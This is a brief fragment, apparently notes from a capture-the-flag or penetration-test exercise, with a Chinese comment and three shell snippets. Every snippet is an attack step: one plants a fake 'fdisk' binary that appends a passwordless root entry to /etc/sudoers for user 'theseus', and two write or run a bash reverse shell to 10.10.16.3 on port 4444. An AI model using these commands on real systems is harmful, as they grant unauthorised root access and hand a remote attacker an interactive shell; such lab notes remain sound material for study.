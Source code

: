 ```
将用户权限写进/etc/sudoers
echo "echo 'theseus ALL=(ALL) NOPASSWD:ALL >>/etc/sudoers' " >fdisk
```

```
#! /bin/bash
bash -i &> /dev/tcp/10.10.16.3/4444 0>&1
```

```
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.16.3/4444 0>&1' > fdisk
```

